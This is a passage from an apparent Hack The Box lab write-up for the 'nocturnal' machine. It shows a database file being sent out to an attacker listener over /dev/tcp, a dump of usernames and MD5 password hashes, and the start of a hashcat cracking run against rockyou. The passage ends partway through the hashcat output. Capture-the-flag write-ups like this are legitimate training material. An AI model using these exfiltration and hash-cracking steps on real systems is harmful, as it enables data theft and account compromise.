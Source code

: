 On the server, I will cat the database file and redirect it on the /dev/tcp to input all the database information to the netcat listener, which redirects the information to a file.
```
www-data@nocturnal:~/nocturnal_database$ cat nocturnal_database.db > /dev/tcp/10.10.14.63/3011         
<t nocturnal_database.db > /dev/tcp/10.10.14.63/3011
```

And we have the database!
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ sqlite3 nocturnal_database.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> 
```

Yes, there is the tobias user:
```
sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
```

I see that is a MD5. I will use hashcat to try to crack it:
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ hashcat -m 0 tobias_hash.txt  /usr/share/wordlists/rockyou.txt.gz -w 3 -S

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 9 9900X 12-Core Processor, 11465/22995 MB (4096 MB allocatable), 12MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 15 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
```